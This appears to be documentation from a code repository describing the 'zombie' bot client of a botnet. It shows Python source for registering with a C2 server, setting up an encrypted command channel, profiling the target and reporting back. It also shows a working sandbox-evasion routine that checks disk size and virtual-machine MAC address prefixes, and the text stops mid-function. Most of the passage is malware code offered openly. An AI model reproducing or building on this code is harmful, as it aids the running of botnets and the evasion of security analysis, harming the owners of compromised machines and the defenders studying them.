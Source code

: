 ## Zombie Architecture

Zombies implement a sophisticated command execution architecture with multi-stage initialization and advanced evasion capabilities:

### Initialization Sequence

```python
def initialize():
    """Initialize zombie with secure key exchange and anti-analysis checks"""
    # Generate asymmetric keys
    private_key, public_key = generate_rsa_keys()
    
    # Register with C2 server
    if not register_with_server():
        return False
        
    # Perform environment verification
    if not evade_detection():
        # Abort if analysis environment detected
        return False
        
    # Establish encrypted command channel
    if not authenticate_with_server():
        return False
        
    # Initialize execution engine
    start_command_processor()
    
    # Gather and report system profile
    profile = profile_target()
    report_metrics("profile", profile)
    
    # Enter main command polling loop
    return True
```

### Evasion Mechanism Implementation

Zombies implement sophisticated detection avoidance techniques:

```python
def check_for_sandbox():
    """Check for indicators of sandbox/VM environment"""
    indicators = []
    
    # Check for small disk size (common in VMs)
    try:
        _, total, _ = shutil.disk_usage("/")
        if total < 50 * 1024 * 1024 * 1024:  # Less than 50GB
            indicators.append("small_disk")
    except:
        pass
    
    # Check for common VM MAC addresses
    try:
        mac = os.popen("ifconfig || ipconfig /all").read().lower()
        vm_prefixes = ["00:0c:29", "00:1c:14", "00:50:56", "00:05:69", "08:00:27"]
        if any(prefix in mac for prefix in vm_prefixes):
            indicators.append("vm_mac_address")
    except:
        pass
    
    # Check for virtualization-specific files
```